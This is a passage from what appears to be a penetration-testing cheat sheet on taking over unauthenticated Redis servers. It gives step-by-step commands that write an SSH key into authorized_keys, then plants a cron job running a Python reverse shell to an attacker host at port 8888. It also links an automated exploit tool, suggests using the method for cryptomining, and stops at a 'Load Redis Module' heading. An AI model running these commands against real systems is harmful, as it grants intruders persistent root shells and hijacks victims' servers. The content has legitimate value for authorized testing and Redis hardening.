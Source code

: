 Import the file into redis :

```bash
cat foo.txt | redis-cli -h 10.10.x.x -x set crackit
```

Save the public key to the `authorized_keys` file on redis server:

```bash
root@Urahara:~ redis-cli -h 10.10.x.x
10.10.x.x:6379> config set dir /home/test/.ssh/
OK
10.10.x.x:6379> config set dbfilename "authorized_keys"
OK
10.10.x.x:6379> save
OK
```

Finally, you can ssh to the redis server with private key : 

```bash
ssh -i id_rsa test@10.10.x.x
```

This technique is automated here: 

[GitHub - iw00tr00t/Redis-Server-Exploit: This will give you shell access on the target system if redis server is not configured properly and faced on the internet without any authentication](https://github.com/iw00tr00t/Redis-Server-Exploit)

### Crontab

> `10.10.z.z` = Attacker, `10.10.x.x` = victim redis 
{: .prompt-warning }

```bash
root@Urahara:~ echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.z.z\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.10.x.x -x set 1
OK
root@Urahara:~ redis-cli -h 10.10.x.x config set dir /var/spool/cron/crontabs/
OK
root@Urahara:~ redis-cli -h 10.10.x.x config set dbfilename root
OK
root@Urahara:~ redis-cli -h 10.10.x.x save
OK
```

The last example for Ubuntu, for Centos, the above command should be:

```bash
redis-cli -h 10.10.x.x config set dir /var/spool/cron/
```

This method can also be used to earn bitcoin ：[yam](https://www.v2ex.com/t/286981#reply14)

### Load Redis Module

